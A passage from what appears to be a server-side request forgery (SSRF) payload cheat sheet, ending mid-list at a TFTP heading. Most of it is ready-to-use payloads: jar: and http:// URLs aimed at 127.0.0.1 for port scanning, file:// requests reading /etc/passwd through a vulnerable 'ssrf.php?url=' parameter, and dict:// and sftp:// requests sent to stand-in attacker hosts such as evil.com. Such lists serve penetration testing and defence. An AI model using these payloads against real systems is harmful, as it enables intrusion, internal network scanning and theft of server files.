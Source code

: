 Blind SSRF

```powershell
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## SSRF exploitation via URL Scheme

### File 

Allows an attacker to fetch the content of a file on the server

```powershell
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```

### HTTP

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

![SSRF stream](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true)

The following URL scheme can be used to probe the network

### Dict

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```powershell
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### SFTP 

A network protocol used for secure file transfer over secure shell

```powershell
ssrf.php?url=sftp://evil.com:11111/
```

### TFTP
